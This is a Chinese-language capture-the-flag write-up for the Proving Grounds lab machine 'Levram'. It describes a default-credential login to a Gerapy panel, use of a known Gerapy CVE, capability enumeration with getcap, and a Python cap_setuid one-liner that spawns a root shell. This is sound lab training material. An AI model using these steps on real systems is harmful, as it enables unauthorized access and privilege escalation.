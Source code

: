 ```yaml
---
layout: post
title: "[PGPractice] Levram  靶機 Write-up"
date: 2024-07-11 13:08:02 +0800
categories: [offsec]
tags: [offsec]
---
```


本系列為 Proving Grounds Play Subscription 靶機

## 官方難易度 : Easy

## 社群評論難易度 : HARD

## 解題花費時間 : < 120 min

## 知識點 :

已知資訊 GERAPY

`Gerapy < 0.9.8`

### Port Scan

![](../static/img/2024-07-11/0.png)

### 8000 Port

發現 帳號與密碼 admin 可以進系統 

![](../static/img/2024-07-11/1.png)

登入後發現最下方有個版本號 0.97 搜索一下 發現有 CVE可利用 `Gerapy < 0.9.8`

![](../static/img/2024-07-11/2.png)

在項目管理中 隨便新增一個專案 即可利用 CVE腳本 `※若無專案 則會失敗`

![](../static/img/2024-07-11/3.png)

## 提權

看 log 發現有個scheduler.py的檔案

![](../static/img/2024-07-11/4.png)

![](../static/img/2024-07-11/5.png)

查看版本號 ,且有gcc 可用  `Linux ubuntu 5.15.0-73-generic`

![](../static/img/2024-07-11/6.png)

### `最後使用了很多 dirtypipe 提權都無解`

參考 Write up

## getcap -r / 2>/dev/null

```
/snap/core20/1518/usr/bin/ping cap_net_raw=ep
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
```
`/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash");'`